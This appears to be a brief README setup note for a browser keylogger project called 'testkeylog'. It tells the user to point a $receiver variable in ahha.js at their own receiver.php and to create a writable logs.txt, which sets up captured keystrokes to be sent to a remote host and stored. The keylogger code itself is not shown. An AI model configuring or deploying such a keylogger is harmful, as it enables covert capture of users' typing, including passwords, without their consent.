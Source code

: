 1. edit ahha.js, change this line to your receiver.php 

mine:
```javascript
var $receiver = "http://localhost/playground/testkeylog/receiver.php";
```

yours:
```javascript
var $receiver = "http://yourhost/testkeylog/receiver.php";
```

Additional prerequisite:

create logs.txt in testkeylog folder and make sure it is writable, if necessary.
